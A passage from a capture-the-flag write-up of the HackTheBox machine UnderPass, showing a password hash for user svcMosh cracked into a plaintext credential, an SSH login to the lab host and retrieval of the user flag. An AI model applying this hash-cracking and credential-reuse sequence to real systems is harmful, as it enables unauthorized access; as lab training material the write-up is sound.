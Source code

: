 Going to the `Users` tab, we can see a unique user *svcMosh*, with a hashed password `412DD4759978ACFCC81DEAB01B382403`.

Using our favorite website [CrackStation](https://crackstation.net/), we can crack the hash and get the password.

We have now a new set of credentials `svcMosh:underwaterfriends`.

I think that it is now time to try to login with SSH.

```bash
┌──(shimp㉿kali)-[~/Desktop/HTB/machines/UnderPass]
└─$ ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jan 12 07:57:31 PM UTC 2025

  System load:  0.05              Processes:             236
  Usage of /:   52.8% of 6.56GB   Users logged in:       2
  Memory usage: 17%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Jan 12 18:27:55 2025 from 127.0.0.1
svcMosh@underpass:~$ 
```

We are in. Let's get the user flag.

```bash
svcMosh@underpass:~$ ls
exploit.sh  user.txt
svcMosh@underpass:~$ cat user.txt
```

We have the user flag.
